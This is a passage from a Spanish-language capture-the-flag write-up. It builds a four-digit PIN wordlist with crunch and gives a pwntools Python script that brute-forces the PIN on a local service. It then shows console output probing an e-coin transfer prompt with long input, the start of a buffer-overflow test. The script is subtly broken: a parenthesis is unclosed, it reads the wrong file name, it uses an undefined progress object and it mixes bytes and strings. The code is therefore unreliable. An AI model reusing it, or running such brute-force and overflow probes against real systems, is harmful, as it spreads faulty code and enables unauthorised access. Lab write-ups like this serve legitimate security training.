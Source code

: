 ```bash
crunch 4 4 -t %%%% > pins.txt
```

Creamos el `exploit.py`

```python
#!/usr/bin/python3

import pdb
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler

def tryPins():
    f = open("pins", "r")

    p1.log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)

    for pin in f.readlines():
        p1.status(b"Probando con PIN " + pin.strip('\n').encode())

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("127.0.0.1", 910))

        data = s.recv(4096)

        s.send(pin.encode())

        data = s.recv(1024)

        if "Access denied" not in data:
            p1.success(b"El PIN es " + pin.strip('\n').encode())
            sys.exit(0)

if __name__ == '__main__':
    tryPins()
```

Si lanzamos el script, encontramos el pin.

Vemos que podemos ejecutar transferencia de e-coin con este programa, intentamos cosas

```bash
Please enter the amount of e-coins you would like to transfer:
[$] 10
[$] Transfering $10 using our e-coin transfer application.
[$] Executing e-coin transfer tool: C:\Users\Documents\transfer.exe

Please enter the amount of e-coins you would like to transfer:
[$] asfessefseafews
[$] Transfering $asfessefseafews using our e-coin transfer application.
[$] Executing e-coin transfer tool: C:\Users\Documents\transfer.exe

Please enter the amount of e-coins you would like to transfer:
[$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA using our e-coin transfer application.
[$] Executing e-coin transfer tool: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```